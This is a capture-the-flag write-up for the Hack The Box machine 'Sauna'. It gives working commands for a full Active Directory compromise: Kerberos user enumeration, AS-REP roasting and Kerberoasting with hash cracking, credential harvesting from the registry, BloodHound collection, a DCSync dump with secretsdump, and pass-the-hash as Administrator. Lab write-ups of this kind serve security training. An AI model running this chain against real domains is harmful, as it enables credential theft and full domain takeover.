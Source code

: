 ```yaml
---
layout: post
title: Sauna
description: Sauna is an easy difficulty Windows machine that features Active Directory enumeration and exploitation.
categories: [writeups]
tags: [HTB, Active Directory, AS-REP Roasting, DCSync]
image:
  path: /assets/sauna/Sauna.png
---
```


## **Summary**

A valid user `fsmith` was found using the employees names at the website, this user had kerberos pre-authentication disabled which allows an attacker to get a hash he can crack to retrieve his password. Another user's credentials were found at the registry, this user `svc_loanmgr` was able to request a replication from the domain controller including all th domain users' NTLM hashes.

## **Enum**

### **nmap**

Initial nmap scan revealed multiple open ports such as 88 (kerberos), 445 (SMB), 5985 (winrm) which indicates that this is a domain controller. We can also see the domain name `egotistical-bank.local` and the hostname `SAUNA`.

```sh
sudo nmap 10.10.10.175 -sS -p- -T4 -oN nmap/ss.nmap
ports=$(cat nmap/ss.nmap | grep open | awk '{print $1}' | tr -d '/tcp' | tr '\n' ',')
nmap 10.10.10.175 -sV -p $ports -oN nmap/svc-full.nmap
```

![](/assets/sauna/000.png)

### **http**

The website doesn't have any functionalities, the only thing we got from it was a list of names at `/about.html`

![](/assets/sauna/003.png)

**users.txt:**

```
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```

### **smb**

We tried enumerating shares without providing any credentials but we were unable to do so.

```sh
crackmapexec smb 10.10.10.175 -u '' -p '' --shares
```

![](/assets/sauna/002.png)

### **kerberos**

#### **fsmith**

Using the list of names we retrieved from the website, we generated possible usernames with the help of [username-anarchy](https://github.com/urbanadventurer/username-anarchy).

```sh
git clone https://github.com/urbanadventurer/username-anarchy
./username-anarchy/username-anarchy -i users.txt > usernames.txt
```

Then used `kerbrute` to find the valid ones, we only got one hit `fsmith`

```sh
kerbrute userenum --dc 10.10.10.175 --domain egotistical-bank.local usernames.txt
```

![](/assets/sauna/004.png)

The user `fsmith` had kerberos pre-authentication disabled which allowed us to request TGT without providing a password, part of the response is encrypted with the user's password. We could try to crack it offline.

```sh
GetNPUsers.py egotistical-bank.local/fsmith -dc-ip 10.10.10.175
```

![](/assets/sauna/005.png)

We cracked the hash and got `fsmith`'s password: `Thestrokes23`.

```sh
hashcat -a 0 -m 18200 asrep.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/sauna/006.png)

We tried enumerating shares as `fsmith` but we found nothing

![](/assets/sauna/007.png)

#### **hsmith**

A user `hsmith` had an SPN. We tried to request a TGS but kerberos failed because the time in our machine is not syncronized with that of the DC

```sh
GetUserSPNs.py egotistical-bank.local/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request
```

![](/assets/sauna/009.png)

After syncronizing the time using `rdate`, we were able to get a TGS. Since part of the TGS is encrypted with the password of the user linked to the SPN, in this case `hsmith`, we could crack it and get the password.

```sh
sudo rdate -n 10.10.10.175 &&  GetUserSPNs.py egotistical-bank.local/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request
```

![](/assets/sauna/010.png)

We noticed that `hsmith` has the same password as `fsmith`: `Thestrokes23`

```sh
hashcat -a 0 -m 13100 tgs.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/sauna/011.png)

### **ldap**

We dumped the domain using ldap

```sh
ldapdomaindump 10.10.10.175 -u egotistical-bank.local\\hsmith -p Thestrokes23 -o domaindump
```

## **Foothold**

The user `fsmith` is part of `Remote Management Users` group, which means he can access the machine using `winrm` protocol.

```sh
firefox domaindump/domain_users.html
```

![](/assets/sauna/014.png)

We connected to the DC using `evil-winrm`

```sh
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

![](/assets/sauna/015.png)

We downloaded `winPEAS.exe`

```sh
curl https://github.com/carlospolop/PEASS-ng/releases/download/20230702-bc7ce3ac/winPEASx64.exe -o winPEAS.exe
```

Then uploaded it to the DC from `evil-winrm`

```powershell
upload winPEAS.exe
```

Using `winPEAS.exe`, we found autologon credentials : `EGOTISTICALBANK/svc_loanmanager:Moneymakestheworldgoround!`

![](/assets/sauna/016.png)

This credentials can be retrieved from the registry using this command

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

The domain does not contain any user with the name `svc_loanmanager`, but there is `svc_loanmgr`

![](/assets/sauna/012.png)

We tried the password `Moneymakestheworldgoround!` with the user `svc_loanmgr` and we were able to authenticate.

```sh
crackmapexec smb 10.10.10.175 -d egotistical-bank.local -u svc_loanmgr -p Moneymakestheworldgoround!
```

![](/assets/sauna/017.png)

## **PrivEsc**

To find a path to escalate our privileges on the domain, we used [BloodHound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound#bloodhound)

First, we downloaded `SharpHound.ps1` to collect data.

```sh
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
```

Then we uploaded it to the DC from `evil-winrm`.

```powershell
upload bh/SharpHound.ps1
```

![](/assets/sauna/019.png)

After that, we loaded `Invoke-BloodHound` module to collect data.

```powershell
. .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -outputdirectory C:\Users\fsmith\Documents\
```

![](/assets/sauna/020.png)

When it finished, we download the generated zip file into our machine

```powershell
download 20230620091852_BloodHound.zip bh/20230620091852_BloodHound.zip
```

![](/assets/sauna/021.png)

On our machine, we started bloodhound, and upload `20230620091852_BloodHound.zip`.

```sh
sudo neo4j start
bloodhound
```

![](/assets/sauna/022.png)

Going throught the results we found that `svc_loanmgr` have `DCSync` rights, these rights allows a user to request a replication from the DC including `ntds.dit` file which contains all domain users' NTLM hashes.

![](/assets/sauna/023.png)

We can perform a [DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync) attack and get the `Administrator`'s NTLM hash.

> To perform a `DCSync` attack, three permission are needed:
>
> - [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes) (1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
> - [Replicating Directory Changes All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all) ( 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
> - [Replicating Directory Changes In Filtered Set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set) (89e95b76-444d-4c62-991a-0facbeda640c)

As we already have the credentials for `svc_loanmgr` we could use Impacket's `secretsdump.py` to dump users' NTLM hashes.

```sh
secretsdump.py svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 -just-dc -outputfile dcsync/hashes
```

![](/assets/sauna/024.png)

Finally, we used pass-the-hash to authenticate using `evil-winrm` as `Administrator`.

```sh
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![](/assets/sauna/026.png)
